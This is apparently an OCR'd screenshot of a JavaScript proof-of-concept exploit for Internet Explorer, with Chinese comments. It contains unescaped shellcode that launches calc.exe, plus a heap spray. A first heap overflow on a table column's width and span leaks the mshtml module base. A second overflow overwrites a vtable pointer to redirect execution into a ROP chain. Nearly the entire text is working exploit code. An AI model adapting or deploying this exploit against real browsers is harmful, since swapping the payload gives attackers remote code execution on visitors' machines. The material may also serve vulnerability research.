```html
    shellcode+= unescape("%u9090%u9090"); // NOPs

    //弹出计算器的shellcode
    shellcode+= unescape("%ue8fc%u0089%u0000%u8960%u31e5%u64d2%u528b%u8b30" + 
                             "%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%uc031" + 
                             "%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf0e2%u5752" + 
                             "%u528b%u8b10%u3c42%ud001%u408b%u8578%u74c0%u014a" + 
                             "%u50d0%u488b%u8b18%u2058%ud301%u3ce3%u8b49%u8b34" + 
                             "%ud601%uff31%uc031%uc1ac%u0dcf%uc701%ue038%uf475" + 
                             "%u7d03%u3bf8%u247d%ue275%u8b58%u2458%ud301%u8b66" + 
                             "%u4b0c%u588b%u011c%u8bd3%u8b04%ud001%u4489%u2424" + 
                             "%u5b5b%u5961%u515a%ue0ff%u5f58%u8b5a%ueb12%u5d86" + 
                             "%u016a%u858d%u00b9%u0000%u6850%u8b31%u876f%ud5ff" + 
                             "%uf0bb%ua2b5%u6856%u95a6%u9dbd%ud5ff%u063c%u0a7c" + 
                             "%ufb80%u75e0%ubb05%u1347%u6f72%u006a%uff53%u63d5" + 
                             "%u6c61%u2e63%u7865%u0065");

    //初始化堆喷数据
    var padding = unescape("%u9090");
    while (padding.length < 1000)
        padding = padding + padding;
    var padding = padding.substr(0, 1000 - shellcode.length);
    shellcode+= padding;
    while (shellcode.length < 100000)
        shellcode = shellcode + shellcode;
    var onemeg = shellcode.substr(0, 64*1024/2);
    for (i=0; i<14; i++) {
        onemeg += shellcode.substr(0, 64*1024/2);
    }
    onemeg += shellcode.substr(0, (64*1024/2)-(38/2));

    //通过堆喷布局rop和shellcode
    var spray = new Array();
    for (i=0; i<100; i++) {
        spray[i] = onemeg.substr(0, onemeg.length);
    }
}

//触发第一次堆溢出用以获取泄露的mshtml模块基址
function leak() {
    var leak_col = document.getElementById("132");
    leak_col.width = "41";
    leak_col.span = "19";
}

//计算mshtml模块基址，并通过堆喷进行rop和shellcode布局
function get_leak() {
    var str_addr = strtoint(bl[498].substring((0x100-6)/2+11,(0x100-6)/2+13));
    str_addr = str_addr - 1410704;
    setTimeout(function(){heapspray(str_addr)}, 50);
}

//触发第二次堆溢出用以覆盖虚表指针，使程序转到rop处执行
function trigger_overflow() {
    var evil_col = document.getElementById("132");
    evil_col.width = "1278888";
    evil_col.span = "29";
}

setTimeout(function(){leak()}, 400);
setTimeout(function(){get_leak()}, 450);
setTimeout(function(){trigger_overflow()}, 1000);

```